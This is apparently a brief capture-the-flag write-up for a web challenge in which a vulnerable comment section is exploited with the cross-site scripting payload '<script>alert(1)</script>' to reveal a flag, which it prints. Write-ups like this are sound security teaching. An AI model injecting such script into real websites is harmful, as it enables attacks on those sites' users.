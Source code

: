 ![image](https://github.com/user-attachments/assets/966ead62-ae79-48b4-9db8-e62ac00f1cfe)

## Challenge
Comment section. Need to alert for flag.

## Solution
Payload:
```html
<script>alert(1)</script>
```
![image](https://github.com/user-attachments/assets/99d3080e-58ca-480e-8d29-26074e424a25)

```
SKR{There_1s_XSS_3verywhere_888879}
```
